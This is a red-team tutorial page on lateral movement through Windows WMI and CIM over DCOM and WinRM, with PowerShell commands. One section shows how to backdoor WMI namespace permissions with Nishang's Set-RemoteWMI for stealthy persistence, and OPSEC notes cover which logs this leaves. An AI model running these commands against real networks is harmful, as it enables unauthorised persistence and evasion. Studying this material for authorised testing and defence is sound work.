

Windows Management Instrumentation (WMI) and Common Information Model (CIM) can be used to execute commands and enumerate systems remotely. This relies on DCOM (RPC) or WinRM (WS-Man) protocols, making it a powerful technique for Lateral Movement without dropping executables to disk.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1021 - Remote Services](https://attack.mitre.org/techniques/T1021/)
* [T1047 - Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
</Callout>


---

## Protocols & Ports Overview

<Callout type="info" title="Protocol Architecture">
* **WMI:** Uses DCOM (RPC) exclusively over **TCP Port 135**. By default, the WMI service (`Winmgmt`) is running and listening on this port. Not firewall-friendly.
* **WinRM / WS-Man / PS Remoting:** Uses HTTP/HTTPS over **TCP Port 5985 (HTTP)** and **5986 (HTTPS)**.
* **CIM:** Flexible. Can use *both* protocols (DCOM port 135 OR WinRM ports 5985/5986).

**WMI Port Configuration Registry:** `HKLM:\Software\Microsoft\Rpc\Internet\`
</Callout>



---

## 1. Remote WMI Execution (DCOM / Port 135)

<Callout type="warning" title="Using `gwmi` Remotely">
**Prerequisite:** The target firewall must allow "Windows Management Instrumentation" (WMI).
</Callout>

```powershell
# Execute WMI query on a remote machine using explicit credentials
gwmi -Class win32_operatingSystem -Computername x.x.x.x -Credential host\user
```

---

## 2. Remote CIM Execution

CIM is more flexible than WMI because it allows you to explicitly define the protocol (DCOM or WinRM) via Session Options.

<Tabs>
  <Tab title="Method A: CIM over DCOM (Port 135)">
    <Callout type="danger">Useful when WinRM (5985) is blocked, but RPC (135) is open.</Callout>
    ```powershell
    # 1. Define the protocol as DCOM
    $cimoption = New-CimSessionOption -Protocol DCOM

    # 2. Create the CIM session
    $session = New-CimSession -ComputerName x.x.x.x -Credential domain\user -SessionOption $cimoption

    # 3. Execute query using the session
    gcim -ClassName win32_operatingSystem -cimsession $session
    ```
  </Tab>
  <Tab title="Method B: CIM over WinRM (Port 5985)">
    <Callout type="warning">**Prerequisite:** The target firewall must allow "Windows Remote Management" (WinRM).</Callout>
    ```powershell
    # 1. Create a standard CIM session (Defaults to WinRM/WS-Man)
    $cimsession = New-CimSession -ComputerName x.x.x.x -Credential domain\user

    # 2. Execute query using the session
    gcim -ClassName win32_operatingSystem -CimSession $cimsession
    ```
  </Tab>
</Tabs>

---

## 3. Managing Remote WMI Permissions (Nishang)

<Callout type="danger" title="Backdooring WMI Namespaces with `Set-RemoteWMI`">
By default, standard users cannot execute remote WMI queries. If you compromise an admin account, you can use the `Set-RemoteWMI` script from the **Nishang** framework to grant a low-privileged user remote WMI access. This acts as a stealthy backdoor for lateral movement.
**Resource:** [samratashok/nishang](https://github.com/samratashok/nishang)
</Callout>

<Steps>
  <Step title="Step 1: Import Module">
    ```powershell
    ipmo nishang-master\Backdoors\set-remotewmi.ps1
    get-help -example Set-RemoteWMI
    ```
  </Step>
  <Step title="Step 2: Grant Permissions (Backdoor)">
    <Tabs>
      <Tab title="All Namespaces">
        *Grants `cnanormaluser` remote WMI access on the target machine using Domain Admin credentials.*
        ```powershell
        Set-RemoteWMI -UserName cnanormaluser -Computername x.x.x.x -Credential domain\adminuser -verbose
        ```
      </Tab>
      <Tab title="Target Specific Namespace (Stealthier)">
        *Grants access only to `root\cimv2` instead of all namespaces.*
        ```powershell
        Set-RemoteWMI -UserName cna -Computername x.x.x.x -Credential domain\cna -verbose -namespace 'root\cimv2' -notallnamespaces
        ```
      </Tab>
    </Tabs>
  </Step>
  <Step title="Step 3: Remove Permissions (Cleanup)">
    ```powershell
    Set-RemoteWMI -UserName cna -Computername x.x.x.x -Credential domain\cna -verbose -remove
    ```
  </Step>
</Steps>

---

## OPSEC Notes

<Callout type="danger" title="Operational Security (OPSEC)">
* **DCOM (Port 135):** WMI over DCOM generates **Event ID 4624 (Type 3 - Network Logon)** on the target. It does not generate PowerShell ScriptBlock logging (Event ID 4104) on the target machine, making it highly stealthy for remote execution.
* **WinRM (Port 5985):** Generates **Event ID 4624 (Type 3)** and creates WSMAN operational logs.
</Callout>
